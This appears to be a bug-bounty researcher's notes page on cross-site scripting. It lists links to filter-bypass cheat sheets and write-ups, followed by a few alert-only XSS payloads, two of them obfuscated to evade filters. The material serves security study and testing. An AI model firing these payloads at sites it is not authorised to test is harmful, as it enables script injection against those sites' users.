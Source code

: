 Notes - 
- https://d3adend.org/xss/ghettoBypass
- https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet



WriteUps
- https://hackerone.com/reports/949382
- XSS + CSRF https://rohit-soni.medium.com/story-behind-sweet-ssrf-40c705f13053
- https://medium.com/bugbountywriteup/automating-xss-using-dalfox-gf-and-waybackurls-bc6de16a5c75
- https://hackerone.com/reports/1085914
- https://hackerone.com/reports/1082847
- https://infosecwriteups.com/how-i-made-it-to-google-hof-f1cec85fdb1b

PayLoads
- "><img src=x onerror=alert(document.domain)>
- Comment - <img src="https://intensedebate.com/images/a-addblog.png" onload="alert()">
- inurl - test ‘-Function`self[‘a’\x2b’l’\x2b’e’\x2b’r’\x2b’t’]\x281\x29```-’
- inurl - test ‘-Function`self[‘a’+’l’+’e’+’r’+’t’](1)```-’


